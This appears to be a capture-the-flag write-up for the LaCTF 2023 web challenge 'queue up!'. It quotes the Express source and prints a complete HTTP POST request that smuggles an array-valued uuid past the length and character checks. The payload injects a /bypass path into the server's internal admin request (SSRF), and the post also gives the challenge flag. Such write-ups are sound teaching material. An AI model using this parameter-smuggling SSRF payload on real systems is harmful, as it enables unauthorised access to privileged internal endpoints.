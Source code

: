 ```yaml
---
layout: post
title: "LaCTF 2023 - queue up! [Web]"
categories: ctf
tags: web ikerl
date: 2023-02-12 22:00:00 +0100
author: ikerl
---
```


queue up! is a web challenge in LaCTF 2023 that ended with 34 solves. The goal is to retrieve a flag that is sent by a web application when the queue goes down and the timer reaches zero. However, with over 20,000 users waiting for the flag, the estimated time to win is about 80+ days (with only one flag being sent every 5 minutes).

```
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.

Disclaimer: Average wait time is 61 days.
```

![](queued.png)

## Analysis of the Application Design

The first step in solving this challenge is to analyze the source code to identify the most important features to test. The web app consists of two independent servers: the flag server (https://qu-flag.lac.tf/) and the queue server (https://qu-queue.lac.tf/).

The flag server only performs two tasks: if the user requests `/` using the GET method, they will be redirected to the queue server, and if the timer of the queue server reaches zero, the user will be redirected back to the flag server using the POST method, and the flag will be sent.

This is the high-level logic of the web application:

- The user arrives to the flag server.
- The user cannot read the flag until his timer reaches zero, so he is redirected to the queue server to wait.
- When the timer reaches zero the user has the option of being redirected back to the flag server in order to get the flag.

## Source Code Analysis

```javascript=
    app.get("/api/:uuid/status", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            res.send(user.served);

        } catch {
            res.send("false");
        }

    });

    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

During the source code analysis, two key points were identified:

- The queue server has two privileged functionalities only available to administrators. The first is to prioritize users in the queue, reducing waiting time, and the second is to check the status of users in the queue to determine if they can receive the flag.
- The flag server has a uuid verification process. The user submits their uuid in the request body, and the server checks if:
    - The uuid has a length of 36
    - The uuid contains only numbers, letters, and hyphens.
    - If both requirements are met, the flag server will execute a request to the queue server's status functionality to determine if the user can receive the flag.

```javascript=
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

## Vulnerability and Exploitation

There is a critical vulnerability in the checks performed by the flag server. By using arrays, it is possible to bypass both checks and modify the server's request (SSRF) to bypass the user's position in the queue.

The exploit used during this challenge involves sending a POST request to the `/` endpoint of the flag server with the uuid as a POST parameter in the body. 

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 366

uuid[]=70964ab7-1025-4f86-a378-ab3b737bed3a/bypass?&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a
```
This payload will meet the condition of being 36 in length and will bypass character validation because it is not a string. This will retrieve the flag. When constructing the `requestUrl` the 36 components of the array will be concatenated one after the other using commas so that the following `requestUrl` will result: `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/bypass?/status,a,a,a,a,a,a,a,a,a,a,a,a,a,a....`.

This way we will exploit the SSRF vulnerability in the flag server and have our uuid bypassed, thus obtaining the flag without having to wait in the queue.


![](flag.png)

Note: When clicking the Get my flag! button, the connection may fail because it uses HTTP instead of HTTPS.

Flag: `lactf{Byp455in_7he_Qu3u3}`
